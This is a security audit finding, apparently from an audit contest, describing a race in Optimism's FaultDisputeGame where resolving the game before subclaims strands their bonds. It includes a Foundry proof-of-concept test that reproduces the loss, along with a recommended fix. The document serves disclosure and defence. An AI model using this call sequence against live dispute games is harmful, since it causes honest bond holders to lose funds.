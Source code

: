 Damaged Chartreuse Skunk

high

# `resolveClaim` will not allow solving subclaims once game is `resolve`d, causing bonds to be lost

## Summary
Out of order `resolveClaim` can be performed, causing loss of bonds,

## Vulnerability Detail

The check to `resolve` is as follows:
https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L386-L392

`resolveClaim` is instead written in this way:

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L405-L424


While it is possible for `subgameAtRootResolved` to be `true` while `status != GameStatus.IN_PROGRESS`

Anyone is going to be able to `resolve` the game, preventing benign users from resolving their subGames

It's worth noting that any benign user has no reason to wait for others to settle, they would most likely do this not even out of a malicious motive, but simply to be able to prove their withdrawal

## Impact

Bonds from subclaims that are not `settled` before `resolve` will be lost permanently

## Code Snippet

The POC will pass and the bond will never be claimable

We demonstrate both flows and show that the game does resolve in the correct state

Showing that bond claiming has a race condition that causes the bond unclaimable and lost

We demonstrate this by `resolve`ing a game and we show that if we claim out of order `proxy.resolveClaim(0)` first, then we can `proxy.resolve()` and we can never call `proxy.resolveClaim(1)`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";

import "src/dispute/DisputeGameFactory.sol";
import "src/dispute/FaultDisputeGame.sol";
import "src/dispute/AnchorStateRegistry.sol";
import "src/dispute/lib/LibPosition.sol";

contract FaultDisputesTest is Test {

    fallback () external payable {

    }
    function testOutOfOrderClaimsLoseBonds() public {
        DisputeGameFactory factory = new DisputeGameFactory();

        AnchorStateRegistry registry = new AnchorStateRegistry(IDisputeGameFactory(factory));

        FaultDisputeGame firstGame = new FaultDisputeGame(
            GameType.wrap(1),
            Claim.wrap(bytes32(0x0)),
            73, // MAX_DEPTH
            30, // 30 SPLIT_DEPTH
            Duration.wrap(604800), // 7 days

            IBigStepper(address(this)),
            IDelayedWETH(address(this)),
            IAnchorStateRegistry(registry),
            123123
        );

        factory.setImplementation(GameType.wrap(1), IDisputeGame(firstGame));

        AnchorStateRegistry.StartingAnchorRoot[] memory initialRoots = new AnchorStateRegistry.StartingAnchorRoot[](1);
        initialRoots[0].gameType = GameType.wrap(1);
        initialRoots[0].outputRoot = OutputRoot({
            root: Hash.wrap(bytes32(uint256(123123))),
            l2BlockNumber: 1
        });

        registry.initialize(
            initialRoots
        );

        FaultDisputeGame proxy = FaultDisputeGame(payable(address(factory.create(
            GameType.wrap(1),
            Claim.wrap(bytes32(uint256(1231231231))),
            abi.encode(2)
        ))));

        uint256 amt = proxy.getRequiredBond(LibPosition.wrap(uint64(1), 0));
        proxy.move{value: amt}(0, Claim.wrap(bytes32(uint256(1))), true);

        vm.warp(block.timestamp + proxy.gameDuration().raw() + 1);

        uint256 happySnapshot = vm.snapshot();
        // NOTE: Resolves correctly as `CHALLENGER_WINS` but challenger loses their bond
        
        // Resolves as intended
        proxy.resolveClaim(1);
        proxy.resolveClaim(0);
        proxy.resolve();
        console2.log("Proper order claim", uint256(proxy.status()));

        // Resolves while skipping
        vm.revertTo(happySnapshot);

        proxy.resolveClaim(0);
        proxy.resolve();
        console2.log("Skipped claim", uint256(proxy.status()));

        // Lost bond
        vm.expectRevert();
        proxy.resolveClaim(1);
    }
}

```

To allow the code to compile more rapidly I edited the source code in this way:

### Changed `DisputeGameFactory`

```solidity
    constructor() OwnableUpgradeable() {
        initialize(address(msg.sender)); // NOTE: Changed on purpose
    }
```

### Change `AnchorStateRegistry`

```solidity
    constructor(IDisputeGameFactory _disputeGameFactory) {
        DISPUTE_GAME_FACTORY = _disputeGameFactory;

        // Initialize the implementation with an empty array of starting anchor roots.
        // initialize(new StartingAnchorRoot[](0)); // NOTE: So we can initialize
    }
```

## Tool used

Manual Review + Foundry

## Recommendation

Refactor the logic to maintain the invariants that:
- Ensure that no game is resolved multiple times
- Games that are resolved can be settled after the `subgameAtRootResolved` as to prevent race conditions

